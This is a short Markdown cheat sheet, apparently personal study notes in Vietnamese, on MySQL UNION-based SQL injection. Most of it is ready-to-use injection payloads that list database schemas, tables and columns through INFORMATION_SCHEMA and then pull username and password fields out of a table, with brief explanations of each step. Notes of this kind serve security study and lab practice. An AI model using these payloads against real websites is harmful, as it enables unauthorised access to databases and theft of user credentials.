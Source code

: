 # MY SQL INJECTION

## Version
`@@version`

## Database 
```sql
cn' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

- Columns **SCHEMA_NAME** chứa all tên của database hiện tại
- Metadata **INFORMATION_SCHEMA** siêu dữ liệu database và table trên server 
- Table **SCHEMA** chứa tên all database
- Ta cũng có thể lấy tên database hiện tại qua hàm **database()**

```sqli
cn' UNION select 1,database(),2,3-- -
```

## TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

- Columns **TABLE_NAME* chứa all tên của tables hiện tại
- Colums **TABLE_SCHEMA** chứa tên csdl của tables đang trỏ đến
- Table **INFORMATION_SCHEMA.TABLES** siêu dữ liệu chứa all table trên server 
- table_schema='dev' ví dụ ta có tên csdl là dev và truy vấn all các table trên csdl dev đó 

## Columns 
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,4 from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

- Columns **COLUMN_NAME* chứa all tên của columns hiện tại trên table 
- Table **INFORMATION_SCHEMA.COLUMNS** siêu dữ liệu chứa all column trong table
- table_name='devss' ví dụ ta lấy được tên table là devss và truy vấn all các columns trên tables devss đó thông qua metadata column 

## DATA
```sql
cn' UNION select 1, username, password, 4 from dev.devss-- -
```

- dev.devss là tables hiện tại csdl_name.table_name
